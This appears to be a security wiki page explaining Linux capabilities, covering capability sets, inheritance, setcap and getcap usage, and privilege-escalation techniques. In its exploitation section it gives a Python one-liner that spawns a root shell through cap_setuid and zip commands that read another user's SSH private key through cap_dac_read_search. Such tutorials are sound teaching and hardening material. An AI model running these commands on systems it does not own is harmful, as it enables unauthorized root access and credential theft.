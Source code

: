 # 🛠️ Capabilities

## Theory

Linux capabilities are a way to improve permission granularity in unix-like systems. It allows to follow the least-privilege principle by defining fine-grained permissions that can be attributed to threads and files. It works by splitting kernel calls in groups of similar functionalities.

**Basic processes :** Have no capabilities (file access is controlled by traditional file privileges).

**(Binary) files :** Can have capabilities (filesystem-dependent).

Capabilities are in separated in 5 sets :

| Set             | Description                                                                                 |
| --------------- | ------------------------------------------------------------------------------------------- |
| Effective set   | the set that will be used when doing permission check.                                      |
| Permitted set   | can be moved to effective set by calling `capset()`                                         |
| Inheritable set | can be inherited from parent processes, can be moved to effective set by calling `capset()` |
| Bounding set    | list of all the capabilities a process can ever receive (in its inheritable/permitted sets) |
| Ambiant set     | passed to non-suid files without defined capabilities                                       |



#### Capability inheritance, capability drop

* On `fork()` call, the child thread will have the same capabilities as the parent thread.
* `capset()` syscall allows to
  * drop any capability from any set
  * move capabilities from permitted/inherited sets to effective set
* If a thread calls `execve()` on a binary file, its capabilities will be modified following the pattern described in the man pages (see `man capabilities`).

**Non-exhaustive capability list :**

| Capability              | Description                                        |
| ----------------------- | -------------------------------------------------- |
| `CAP_AUDIT_CONTROL`     | Toggle kernel auditing                             |
| `CAP_AUDIT_WRITE`       | Write to kernel audit log                          |
| `CAP_CHOWN`             | Change file owners                                 |
| `CAP_SETUID/CAP_SETGID` | Change UID/GID                                     |
| `CAP_NET_RAW`           | Open raw and packet sockets                        |
| `CAP_NET_BIND_SERVICE`  | Bind a socket to Internet domain privileged ports  |

## Practice

**Setting a file's capabilities :**

To change capabilities on a file, you need to type these commands as `root` :

```bash
# set capability to change uid to file (+ep to add to effective & permitted)
setcap cap_setuid+ep /path/to/file

# delete capabilites 
setcap -r /path/to/file

# get file(s) capabilities
getcap -r dir 2>/dev/null
getcap file

# listing & decoding a running process' capabilities
grep Cap /proc/$pid/status
capsh --decode=000001ffffffffff
```

**Exploiting capabilities :**

*   Empty capabilities

    If a file has capabilities `/path/to/file =ep` it means it has `all` capabilities _and_ will run as `root`.

{% hint style="info" %}
To create a file with empty (=all) capabilities just`sudo setcap \=ep /path/to/file`&#x20;
{% endhint %}

**Other classic examples :**

* If the `python` binary has the `cap_setuid` then it becomes trivial to get a root shell :

```bash
./python -c "import os; os.setuid(0); os.system('/bin/sh')"
```

* Arbitrary file read : `zip` with `cap_dac_read_search`

```bash
# cap_dac_read_search allows zip/tar to read any file (get ssh private key here)
zip /tmp/private_k.zip ~/.ssh/id_rsa
unzip /tmp/private_k.zip -d /tmp
# id_rsa is now readable in the unzipped folder
```

**End notes :**

When copied from one place to another, a binary will lose its capabilities. In order to keep capabilities, you can copy the file with `--preserve=all` option :

```bash
# to keep capabilities when copying a binary
cp --preserve=all /origin/path /dest/path
```

## Resources

{% embed url="https://blog.container-solutions.com/linux-capabilities-why-they-exist-and-how-they-work" %}

{% embed url="https://blog.ploetzli.ch/2014/understanding-linux-capabilities/" %}

{% embed url="https://materials.rangeforce.com/tutorial/2020/02/19/Linux-PrivEsc-Capabilities/" %}
